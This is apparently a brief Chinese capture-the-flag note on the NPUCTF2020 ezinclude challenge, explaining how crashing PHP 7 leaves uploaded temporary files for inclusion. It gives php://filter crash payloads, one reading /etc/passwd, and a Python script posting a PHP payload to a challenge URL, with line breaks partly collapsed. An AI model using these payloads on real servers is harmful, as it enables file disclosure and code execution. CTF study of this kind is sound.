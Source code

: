 # php7 segment fault临时文件包含

向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留


1.利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除


2.PHP版本<7.2，利用php崩溃留下临时文件


php < 7.2php://filter/string.strip_tags/resource=/etc/passwd

* 
php7 老版本通杀php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA

* 
```plain
import requestsfrom io import BytesIOurl="http://f0af8aa4-9e9c-40a8-9003-175dbc6f69f8.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"payload="<?php phpinfo();?>"files={    "file":BytesIO(payload.encode())}r=requests.post(url=url,files=files,allow_redirects=False)
print(r.text)
Python
```



原题：[NPUCTF2020]ezinclude



